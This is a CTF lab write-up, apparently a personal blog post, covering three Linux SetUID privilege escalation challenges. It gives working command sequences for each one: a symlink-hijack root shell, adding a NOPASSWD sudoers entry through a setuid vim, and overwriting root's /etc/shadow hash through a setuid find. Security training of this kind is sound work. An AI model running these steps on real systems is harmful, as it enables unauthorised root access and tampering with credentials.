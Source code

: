 ```yaml
---
layout: post
title: Linux Privilege Escalation - SetUID
description: Linux Privilege Escalation - SetUID
categories: [ctf, privesc, setuid]
tags: [ctf, privesc, setuid, attackdefense, suid]
---
```


Today, I'll be tackling the three SetUID-based privilege escalation attacks currently on Pentester Academy's Attack/Defence CTF.

## Exploiting SetUID Programs
>Vulnerable setuid programs on Linux systems could lead to privilege escalation attacks. In this lab, you are provided a regular user account and need to escalate your privileges to become root. There are 2 programs in your home directory welcome and greetings which might be vulnerable. 
>Your mission:
>    Get as root shell on the system
>    View /etc/shadow
>Note: Development tools e.g. gcc is installed on the system already.

When we open our shell, we're greeted with two files, one of which is a SetUID binary, and the other is not readable by our user.
```
student@attackdefense:~$ ls -l
total 24
-r-x------ 1 root root 8296 Sep 22 21:24 greetings
-rwsr-xr-x 1 root root 8344 Sep 22 21:24 welcome
student@attackdefense:~$ file *
greetings: regular file, no read permission
welcome:   setuid ELF 64-bit LSB shared object, x86-64, version 1 (SYSV), dynamically linked, interpreter /lib64/ld-linux-x86-64.so.2, for GNU/Linux 3.2.0, BuildID[sha1]=199bc8fd6e66e29f770cdc90ece1b95484f34fca, not stripped
```

Let's go ahead and run that binary and see what we get.
```
student@attackdefense:~$ ./welcome
Welcome to Attack Defense Labs
```

Seems like it's a pretty straightforward printout of a message, but how can we use this to escalate privileges? 

Omitted here is the half hour I spent scanning the entire filesystem for another SetUID binary to exploit. Eventually, though, I decided that clearly I was intended to use the binary in the home directory, so I should probably look more into it.

Where is that binary getting the message that it outputs? Is it static?
```
student@attackdefense:~$ strings welcome
/lib64/ld-linux-x86-64.so.2
libc.so.6
setuid
system
__cxa_finalize
__libc_start_main
GLIBC_2.2.5
_ITM_deregisterTMCloneTable
__gmon_start__
_ITM_registerTMCloneTable
AWAVI
AUATL
[]A\A]A^A_
greetings
...
```

The fact that the only imported functions appear to be _setuid_ and _system_, coupled with the fact that there is a string of the file _greetings_ that is marked as an executable likely means that _welcome_ is in fact just executing _greetings_.
At this point, I felt very silly. I had spent half an hour trying to make everything more hard than it was.

Knowing that our setuid program is just blindly executing _greetings_, I know that if I create a symlink to /bin/sh named greetings, then execute _welcome_ I should get a root shell. It is worth noting that this only works because I am the owner of the /home/student directory, allowing me to delete the existing _greetings_.

```
student@attackdefense:~$ rm /home/student/greetings
rm: remove write-protected regular file '/home/student/greetings'? y
student@attackdefense:~$ ln -s /bin/sh greetings
student@attackdefense:~$ ./welcome
# id
uid=0(root) gid=999(student) groups=999(student)
# head /etc/shadow
root:*:17764:0:99999:7:::
daemon:*:17764:0:99999:7:::
bin:*:17764:0:99999:7:::
sys:*:17764:0:99999:7:::
sync:*:17764:0:99999:7:::
games:*:17764:0:99999:7:::
man:*:17764:0:99999:7:::
lp:*:17764:0:99999:7:::
mail:*:17764:0:99999:7:::
news:*:17764:0:99999:7:::
```

We have now successfully escalated to a root shell.

## Exploiting SetUID Programs II
>As you've seen in another challenge in this category, setuid programs can provide great power and flexibility, but if not secured properly, can easily lead to a full system compromise. 
>Your mission is to get a root shell on the box!

As far as missions go, this one is straightforward: Get r00t. 

When we get into our shell, there's nothing in the home directory. As the name of the game is setuid, let's go ahead and enumerate all setuid programs. As an added bonus, we will throw in a CTF-ism, and only look for files with a modification date more recent than that of bash.

```
student@attackdefense:~$ find / -xdev -perm -4000 -newermm /bin/bash 2>/dev/null
/usr/bin/vim.tiny
/bin/mount
/bin/umount
```

Only one of those programs doesn't need root, so vim is likely our way in. Let's just give ourselves sudo access (with no password, because we don't know student's password).

I won't be pasting text for this one, because Vim takes up the whole screen and such.

_vim.tiny /etc/sudoers_

Add the following line: _%student ALL=(ALL) NOPASSWD:ALL_

Force write-quit using _:wq!_. Since we opened the file as root, it will save our changes despite the warnings about it being a read-only file.

Now, lets spawn us a root shell.
```
student@attackdefense:~$ sudo su
root@attackdefense:/home/student# id
uid=0(root) gid=0(root) groups=0(root)
```

Got r00t? Yes we do.

## Exploiting SetUID Programs III
>Sometimes an admin might create setuid permissions for a common program to run as root. This is done to allow regular users to perform a routine task. Unfortunately, even completely benign looking programs can be misused by an attacker. 
>Your mission is to get a root shell on the box!

As with before, we have no files in our home directory, so we will go ahead and enumerate setuid executables.

```
student@attackdefense:~$ find / -xdev -perm -4000 2>/dev/null
/usr/bin/chfn
/usr/bin/gpasswd
/usr/bin/passwd
/usr/bin/find
/usr/bin/newgrp
/usr/bin/chsh
/bin/mount
/bin/umount
/bin/su
```

_find_ is the only executable that is not always setuid, and for good reason. _find_ has a somewhat obscure option to execute arbitrary code for every file found. So, let's get us some r00t.

My favourite tactic, due to it's relative ease, is to replace the existing root password hash with _1234_, the hash for which being _$6$ZbvneNDSEXXO4pk1$DmvtdGOHZA8mbpVih5xtHrBcKk8VxZ0rXwLEK2M1iciGvM6qHXfuSY5YosPHj3Zv063JUX2p1TQqya4k1Azjx0_.

```
student@attackdefense:~$ find . -exec sed -Ei 's/^(root\:)\*(.*)/\1\$6\$ZbvneNDSEXXO4pk1\$DmvtdGOHZA8mbpVih5xtHrBcKk8VxZ0rXwLEK2M1iciGvM6qHXfuSY5YosPHj3Zv063JUX2p1TQqya4k1Azjx0\2/' /etc/shadow \;
student@attackdefense:~$ su
Password:
root@attackdefense:/home/student# id
uid=0(root) gid=0(root) groups=0(root)
```

Pwned.

## Conclusion
All in all, this was an interesting set of challenges. I definitely think that the first challenge was the hardest of all three, because a little bit of reverse engineering was needed. The second challenge was a setuid vulnerability I had not encountered before, but was straightforward enough. The third I had actually seen in a previous CTF somewhere, though I cannot recall where.

